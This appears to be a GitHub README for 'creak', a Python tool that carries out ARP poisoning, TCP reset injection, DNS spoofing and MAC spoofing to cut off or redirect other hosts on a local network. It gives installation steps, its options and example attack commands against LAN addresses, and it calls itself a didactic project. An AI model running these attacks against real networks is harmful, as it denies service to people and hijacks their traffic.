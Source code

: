 # creak

Deny navigation and download capabilities of a target host in the local network
performing an ARP poison attack and sending reset TCP packets to every request
made to the router.
Born as a didactic project for learning python language, i decline every responsibility for any abuse.

## Installation

```sh
$ git clone https://github.com/codepr/creak.git
$ cd creak
$ python setup.py install
```
or simply clone the repository and run the `creak.py` after all requirements are
installed:

```sh
$ git clone https://github.com/codepr/creak.git
```

It is required to have installed `pcap` libraries for raw packet manipulations
and `dpkt` module, for dns spoofing options is required to have installed dnet
module from `libdnet` package, do not confuse it with pydnet (network evaluation
tool) module.
It can use also `scapy` if desired, can just be set in the `config.py` file.

## Options

```sh
Usage: creak.py [options] dev

Options:
  -h, --help           show this help message and exit
  -1, --sessions-scan  Sessions scan mode
  -2, --dns-spoof      Dns spoofing
  -x, --spoof          Spoof mode, generate a fake MAC address to be used
                       during attack
  -m MACADDR           Mac address octet prefix (could be an entire MAC
                       address in the form AA:BB:CC:DD:EE:FF)
  -M MANUFACTURER      Manufacturer of the wireless device, for retrieving a
                       manufactur based prefix for MAC spoof
  -s SOURCE            Source ip address (e.g. a class C address like
                       192.168.1.150) usually the router address
  -t TARGET            Target ip address (e.g. a class C address like
                       192.168.1.150), can be specified multiple times
  -p PORT              Target port to shutdown
  -a HOST              Target host that will be redirect while navigating on
                       target machine
  -r REDIR             Target redirection that will be fetched instead of host
                       on the target machine
  -v, --verbose        Verbose output mode
  -d, --dotted         Dotted output mode
```

## Example

Most basic usage:
Deny all traffic to the target host

```sh
$ python creak.py -t 192.168.1.30 wlan0
```

Set a different gateway:

```sh
$ python creak.py -s 192.168.1.2 -t 192.168.1.30 wlan0
```

Set a different mac address for the device:

```sh
$ python creak.py -m 00:11:22:33:44:55 -t 192.168.1.30 wlan0
```

Spoof mac address generating a fake one:

```sh
$ python creak.py -x -t 192.168.1.30 wlan0
```

Spoof mac address generating one based on manufacturer(e.g Xeros):

```sh
$ python creak.py -x -M xeros -t 192.168.1.30 wlan0
```

DNS spoofing using a fake MAC address, redirecting ab.xy to cd.xz(e.g.
		localhost):

```sh
$ python creak.py -x -M xeros -t 192.168.1.30 -a www.ab.xy -r www.cd.xz wlan0
```

Deny multiple hosts in the subnet:

```sh
$ python creak.py -x -t 192.168.1.30 -t 192.168.1.31 -t 192.168.1.32 wlan0
```

## Changelog

See the [CHANGELOG](CHANGELOG.md) file.

## TODO

- Sessions grouping based on active load usage
- Sessions hijacking

## License

See the [LICENSE](LICENSE.md) file for license rights and limitations (GNU v3).
